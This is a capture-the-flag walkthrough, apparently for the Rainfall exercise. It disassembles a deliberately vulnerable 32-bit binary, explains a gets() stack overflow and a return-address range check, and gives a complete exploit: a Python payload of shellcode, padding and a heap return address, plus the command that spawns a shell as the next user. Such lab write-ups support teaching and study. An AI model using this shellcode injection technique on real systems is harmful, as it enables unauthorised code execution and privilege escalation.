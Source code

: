 # Level2
Level2 is a follow up to buffer overflows vulnerabilities. 

# Tools
GDB

# Walkthrough
The home a level2 contains a binary, called level2. 
Using GDB, we can disassemble it and we get the assembly code:
```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

We see that the programme calls a function p, we can confirm it by asking gdb for information on the used functions in the binary:

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```
Let's disassemble p:
```
(gdb) disass p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

We are going to break at the main, before the call of `p` (address **0x08048545**) and before the `gets` call in `p` (address **0x080484ed**). 

We run the programme until we hit our third breakpoint (before the `gets` call).
We dump the content of the stack before inputing in `gets`, we input 4 'A' (`0x41`), and 4 'B' (`0x42`), and redump the content of the memory to check where does our buffer begins.

```
Breakpoint 3, 0x080484ed in p ()
(gdb) x/20x $esp
0xbffff680:	0xbffff69c	0x00000000	0x00000000	0xb7e5ec73
0xbffff690:	0x080482b5	0x00000000	0x00c30000	0x00000001
0xbffff6a0:	0xbffff8bf	0x0000002f	0xbffff6fc	0xb7fd0ff4
0xbffff6b0:	0x08048550	0x08049828	0x00000001	0x08048381
0xbffff6c0:	0xb7fd13e4	0x00000016	0x08049828	0x08048571
(gdb) ni
AAAABBBB
0x080484f2 in p ()
(gdb) x/20x $esp
0xbffff680:	0xbffff69c	0x00000000	0x00000000	0xb7e5ec73
0xbffff690:	0x080482b5	0x00000000	0x00c30000	0x41414141
0xbffff6a0:	0x42424242	0x00000000	0xbffff6fc	0xb7fd0ff4
0xbffff6b0:	0x08048550	0x08049828	0x00000001	0x08048381
0xbffff6c0:	0xb7fd13e4	0x00000016	0x08049828	0x08048571
```
We can see that our 'A' and 'B' have been written starting at address **0xbffff69c**.
The return address for `main` is **0x0804854a**. 

If we dump a little more of the stack, we get:
```
(gdb) x/120x $esp
0xbffff680:	0xbffff69c	0x00000000	0x00000000	0xb7e5ec73
0xbffff690:	0x080482b5	0x00000000	0x00c30000	0x41414141
0xbffff6a0:	0x42424242	0x00000000	0xbffff6fc	0xb7fd0ff4
0xbffff6b0:	0x08048550	0x08049828	0x00000001	0x08048381
0xbffff6c0:	0xb7fd13e4	0x00000016	0x08049828	0x08048571
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0xbffff6f8	0x0804854a
...
```
Where we can see the return address (last piece of data).
So, the return address is stored at **0xbffff6ec**, and the buffer starts at **0xbffff69c**. The buffer obviously grows towards higher addresses, thus we need to write **0xbffff6ec** - **0xbffff69c** = **0x50** = 80 characters before overwriting the return address.

By passing the binary to Hex-Rays, we get an approximative code of `p`:
```c
char *p()
{
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(s);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 ) // 0xB0000000 = -1342177280 (signed) 
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(s);
  return strdup(s);
}
```

The `if` line is interesting. `(retaddr & 0xB0000000)` will only take the first 4 bytes of `retaddr`, and compare them to `-1342177280`, which is `0xB0000000`. 

For context, in older Linux distributions, that used to run on 32-bit, some memory spaces had known ranges. Typically, the User Space's range was from `0x00000000` from `0xBFFFFFFF` (3GB of the 4GB of the 32bit system), when the Kernel Space's range was from `0xC0000000` to `0xFFFFFFFF` (1GB of the 4GB). When some data from the User Space leaked on the Kernel Space, it was blocked and resulted into a segmentation fault.   

Thus, the `if` line is checking whether or not the return address is located in the User Space, which could mean that it has been tampered. It is a very primitive way of protecting against certain buffer overflows (modern sytems use the NX Flag (non-executable stack) and ASLR (Address Space Layour Randomisation)).

The user space stacks usually started at around `0xC0000000` (at the top of the space) and grew downwards. Thus, they are in the `0xB...` space and making a stack overflow would be interrupted by the `if` line, or it might take an enormous overflow and taking care of many considerations. 

A simpler solution is to make a Heap overflow, as the Heap tends to have lower memory addresses.
Moreover, we see in the code that `p` calls `strdup`, which calls `malloc`, a function used to allocate memory... on the heap!

By running the `level2` binary with `ltrace` multiple times, we see that it always points out to the same return address, `0x0804a008`, which is **NOT** in the `0xB...` range. Good!

```
level1@Rainfall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7b4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                            = 0
gets(0xbffff6bc, 0, 0, 0xb7e5ec73, 0x80482b5test
)                                 = 0xbffff6bc
puts("test"test
)                                                                  = 5
strdup("test")                                                                = 0x0804a008
+++ exited (status 8) +++
```

The idea now is to craft a payload that will give us a shell and overwrite the return address by the return address outside of the `0xB...` space, the one of `strdup`!

A shellcode database can be found [here](https://shell-storm.org/shellcode/index.html), we are going to use this [shellcode](https://shell-storm.org/shellcode/files/shellcode-752.html) from kernel_panik. 

We now have a shellcode, a buffer length, and a return address, let's make our payload:
```py
len_buffer = 80
shell_code = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
return_address = b"\x08\xa0\x04\x08"

payload = (
    shell_code +
    b"A" * (len_buffer - len(shell_code)) +
    return_address
)

print(payload)
```
Give yourself all the permissions on the home of level2, `scp` the script onto the machine, redirect its output to a file exploit the binary:
```bash
cat attack.txt - | ./level2
1���Qh//shh/bin��
                  ̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
```
Grab the password, and level2 completed!
